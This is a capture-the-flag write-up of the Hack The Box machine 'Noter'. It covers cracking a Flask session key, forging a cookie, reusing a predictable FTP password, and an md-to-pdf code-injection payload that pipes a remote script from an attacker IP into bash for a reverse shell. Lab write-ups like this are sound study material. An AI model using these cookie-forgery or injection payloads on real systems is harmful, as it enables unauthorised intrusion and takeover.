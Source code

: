 ```yaml
---
title: "HTB - Noter"
date: 2023-03-11T18:37:15+01:00
draft: false
tags: [HTB, Medium, Windows]
---
```


## Foothold
### Nmap
```  
PORT STATE SERVICE VERSION  
21/tcp open ftp vsftpd 3.0.3  
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
5000/tcp open http Werkzeug httpd 2.0.2 (Python 3.8.10)  
```
Classic linux box with unauthorized anonymous login on ftp and a Flask webapp on port 5000.

Website is a note taking service. We can create an account and login using */login* and */register*.

Cookie is a JWT. And since this is Flask we can use [this tool]([https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask)) in order to bruteforce the signing key. This will allow us to craft our own cookies.
> Don't forget to have your machine time synced with the machine
> Thx hAAAAAAAAAAAAAAAAtricks

```
> ../.local/bin/flask-unsign -u -c < cookie.txt

[*] Session decodes to: {'logged_in': True, 'username': 'azer'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 18304 attemptscXqPyDHaOR4K
'secret123'
```

When we try to login, we can see that there is two different message that pops up depending whether or not we're trying to login with an existing user. 

Since ffuf doesn't work, let's use a custom made python script    
```  
...  
Trying: blowfish  
Trying: bls  
Trying: blue  
Found valid username: blue  
```

Let's craft a cookie that will hold the *username* property as *blue* :
```
> ../.local/bin/flask-unsign -s -c "{'logged_in': True, 'username': 'blue'}" --
secret secret123

eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.Yw-1Yg.roc8aqCf9Cn3ePy2b91EjAyHaTw
```

We can successfully impersonate user *blue* inside the note web application.

## User
Browsing the notes available to read as *blue* we find this one :
```
Hello, Thank you for choosing our premium service. Now you are capable of  
doing many more things with our application. All the information you are going  
to need are on the Email we sent you. By the way, now you can access our FTP  
service as well. Your username is 'blue' and the password is 'blue@Noter!'.  
Make sure to remember them and delete this.  
(Additional information are included in the attachments we sent along the  
Email)  
  
We all hope you enjoy our service. Thanks!  
  
ftp_admin
```

Trying to login as user *blue*  with password *blue@Noter!* we can access a pdf file on the ftp server that tells us that every passwords is formatted the same way:
*{username}@Noter!* . We can use this to guess the password of *ftp_admin* !

We retrieve two backup files containing the code of the web app.

*md-to-pdf* is vulnerable in the */export_from_cloud* route. We can serve a malicious .md file containing `---js\n((require("child_process")).execSync("curl http://10.10.14.174/rev_shel.sh | bash"))\n---RCE` 

We get an access AND the user flag !

## LPE

Using *linpeas* we can see that the mysql server is ran by root.

We can use [this tutorial](https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf) in order to get the root flag !

AAAAAAAAAAAAAAAA